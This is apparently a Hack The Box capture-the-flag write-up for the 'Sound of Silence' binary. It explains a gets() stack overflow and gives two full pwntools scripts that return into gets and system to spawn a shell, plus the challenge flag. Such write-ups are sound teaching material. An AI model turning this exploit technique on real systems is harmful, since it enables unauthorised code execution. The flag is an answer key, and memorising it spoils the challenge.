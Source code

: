 # Sound of Silence

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c00cb1d6-aa6b-4bff-b60d-65115285d01f)


> Write-up author: jon-brandy

## Lessons Learned:
1. Stack-Based Exploitation.
2. Manipulate return address to gets(), then use system() as it's argument.
3. Utilize GDB to follow parent process.

## DESCRIPTION:

<p align="justify">Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e40093d-ac65-4955-9bb6-93899c3d2a2f)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e53e26ae-0d6c-457f-a5d7-e643dec8c82e)


2. Upon reviewing the decompiled code on Ghidra, it's very clear that the vuln reside at the **gets()** usage.
3. There are no bound checking, even the canary and PIE is dead. Also there is a **system()** call.
4. Hence, it's easier for us to obtain RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/921676d0-52ff-4216-ac33-93d6275740da)


5. BUT the problem here, remembering it does call system(), hence we can't identify RIP offset like usual with it.
6. Although we can do it manually, but still I preferred using GDB.
7. The method is to do **set follow-fork-mode parent** at GDB.
8. So now the GDB is following the parent process, not the child process.
9. Simply send +16 bytes or even more than the available buffers to hold by the input variable.
10. We shall gained segfault.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4860fb58-d5a6-4801-b9fc-b20a8200d512)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cbbd5a52-3c99-44fb-9230-93511d71b80c)


11. Nice! Now, what are our objectives? There is no **write()**, **read()**, **printf()**, or **puts()** call.
12. BUT there is **system()**.
13. Our objective is to return to `gets@plt`, then pass `system()` as it's arg.
14. Finally, simply passing the `/bin/sh\x00` strings.
15. Here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin/sh\x00')

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3918398-f44c-43fb-8cc3-cb832f15354e)


16. Interesting, we failed to get shell. Based from the received bytes, it said `/bin.sh` not found.
17. Noticed our `/` is bit-flipped (?)
18. Upon debugging our input by set breakpoints at **main()**, we found an interesting pointer stored at the RDI upon step into the **gets()** call.

> AFTER THE GETS CALL, PASS FEW BYTES

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b588ca19-e6ba-4ccf-a788-b20f16c38bbc)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02adb208-ddfe-4e7b-8143-a237f6a58700)


19. Interesting! RDI is filled with 0x0 value. This indicates a **standard lockp**.
20. This could be the reason why our shell strings is bitflipped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/094570a3-cbc8-4725-b164-80b9239a9ea2)


21. Running **vmmap** to check the address. We can see it's writeable! That is also the reason why we can write `/bin/sh`.
22. So our objective is left to identify which character when it's bitflipped, resulting to "/".
23. Long story short, upon stuffing all the chars. Found that passing `/bin0sh` resulting to `/bin/sh`.

> FULL SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin0sh\x00')

sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/428edca9-fa1f-4699-aef8-b1f40a05ab91)


24. Nice! We've pwned it!

## FLAG

```
HTB{5y5t3m_15_m0r3_th4n_en0ugh!~!}
```
